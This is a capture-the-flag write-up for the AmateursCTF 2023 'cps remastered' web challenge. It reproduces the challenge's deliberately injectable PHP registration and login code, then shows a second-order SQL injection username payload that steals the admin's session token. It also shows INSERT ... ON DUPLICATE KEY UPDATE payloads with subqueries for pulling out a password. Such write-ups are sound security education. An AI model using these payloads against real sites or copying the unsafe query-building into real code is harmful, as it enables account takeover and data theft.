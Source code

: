 ```yaml
---
layout: post
title: AmateursCTF 2023
---
```


# cps remastered
![screenshot of challenge description]({{ site.baseurl }}/images/amateursctf/cps.png)
The description is already hinting at SQL injection so we know what we're getting into here

It didnt take too long to spot the SQLi in register.php
```php
<?php
    $message = "";
    mysqli_report(MYSQLI_REPORT_ERROR | MYSQLI_REPORT_STRICT);
    if (isset($_POST["username"]) && isset($_POST["password"])) {
        try{
            $mysqli = new mysqli("p:db", "app", "ead549a4a7c448926bfe5d0488e1a736798a9a8ee150418d27414bd02d37b9e5", "cps");
            $result = $mysqli->query(sprintf("INSERT INTO users (username, password) VALUES ('%s', '%s')", $_POST["username"], $_POST["password"]));
            if ($result) {
                $token = bin2hex(random_bytes(16));
                $add_token = $mysqli->query(sprintf("INSERT INTO tokens (token, username) VALUES ('%s', '%s')", $token, $_POST["username"]));
                if ($add_token) {
                    setcookie("token", $token);
                    $message = "<p>Successfully created account. You are now logged in</p>";
                }
            } else {
                $message = "<p>Something went wrong. Username " + $_POST["username"] + " (might) have been taken already</p>";
            }
        } catch (Exception $e) {
            if (str_starts_with($e, "mysqli_sql_exception: Duplicate entry '") and str_contains($e, "' for key 'PRIMARY'")) {
                $message = sprintf("<p>Something went wrong. Username starting with %s has been taken already</p>", substr(explode("' for key", substr($e, 39))[0], 0, 5));
            }
        }

    }
?>
```

I thought we could update password field using the insert query however the permissions for the SQL user only allow us to update the best_cps column.


```sql
CREATE USER 'app' @'%' IDENTIFIED BY 'ead549a4a7c448926bfe5d0488e1a736798a9a8ee150418d27414bd02d37b9e5';
GRANT SELECT ON cps.* TO 'app' @'%';
GRANT INSERT ON cps.* TO 'app' @'%';
GRANT UPDATE (best_cps) ON cps.users TO 'app' @'%';
FLUSH PRIVILEGES;
```

So instead let's look at this other SQLi in login.php

```php
<?php
    $message = "";
    mysqli_report(MYSQLI_REPORT_ERROR | MYSQLI_REPORT_STRICT);
    if (isset($_POST["username"]) && isset($_POST["password"])) {
        $mysqli = new mysqli("p:db", "app", "ead549a4a7c448926bfe5d0488e1a736798a9a8ee150418d27414bd02d37b9e5", "cps");
        $stmt = $mysqli->prepare("SELECT username, password FROM users WHERE username = ? AND password = ?");
        $stmt->bind_param("ss", $_POST["username"], $_POST["password"]);
        $stmt->execute();
        $result = $stmt->get_result();
        $row = $result->fetch_assoc();
        if ($row) {
            $token = bin2hex(random_bytes(16));
            $add_token = $mysqli->query(sprintf("INSERT INTO tokens (token, username) VALUES ('%s', '%s')", $token, $_POST["username"]));
            if ($add_token) {
                setcookie("token", $token);
                echo "<p>You are now logged in</p>";
            }
        } else {
            echo "<p>Something went wrong.</p>";
        }

    }
?>
```

On first glance it might seem like we can't exploit the SQLi in the INSERT query however if we register an account with our payload as it's username we can reach the vulnerable query.

So register a user with the username `admin\');-- -` - we need to escape the quote as register.php itself is injectable.

Afterwards log in as the user we just created and we get the flag on the index (flag was password of admin user).

What our injection does here is make the token we have the token for the admin user instead of the user we created.

Flag: `amateursCTF{h0w_f@st_can_you_cl1ck?}`
![screen shot of flag on cps](images/amateursctf/cpsflagged.png)

## Other notes from cps remastered
The intended solution was to extract the flag bit by bit using boolean based blind.

If we did have UPDATE permissions for password column we could extract data through the password field in our INSERT query like this:

Username: myuser

Password: `xd'),('myuser','derp') ON DUPLICATE KEY UPDATE password=@@version-- -`

Query: 
```sql
INSERT INTO users (username, password) VALUES ('myuser', 'xd'),('myuser','derp') ON DUPLICATE KEY UPDATE password=@@version-- -')
```

While exploiting this you may get an error like:
`Error in query (1093): Table ‘users’ is specified twice, both as a target for ‘INSERT’ and as a separate source for data`

You can work around this issue using subqueries:
```sql
xd'),('myuser','derp') ON DUPLICATE KEY UPDATE password=(SELECT t.password FROM (SELECT * FROM users t WHERE t.username='admin') as t)-- -
```

